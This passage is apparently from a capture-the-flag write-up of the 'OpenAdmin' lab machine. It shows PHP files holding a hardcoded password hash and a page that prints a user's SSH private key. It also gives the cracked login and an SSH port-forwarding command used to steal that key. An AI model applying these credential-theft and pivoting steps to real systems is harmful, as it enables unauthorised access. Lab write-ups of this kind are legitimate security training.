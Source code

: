 - /var/www/internal belongs to jimmy -> enum

```console
jimmy@openadmin:/var/www/internal$ cat index.php

<?php
$msg = '';

if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
      $_SESSION['username'] = 'jimmy';
      header("Location: /main.php");
  } else {
      $msg = 'Wrong username or password.';
  }
}
?>

jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

![image-20240119131216962](./OpenAdmin.assets/image-20240119131216962.png)

- internal http page login cred: `jimmy:Revealed`

- port forwarding: `ssh -N -L 52846:localhost:52846 jimmy@$IP` -> get joanna's private key

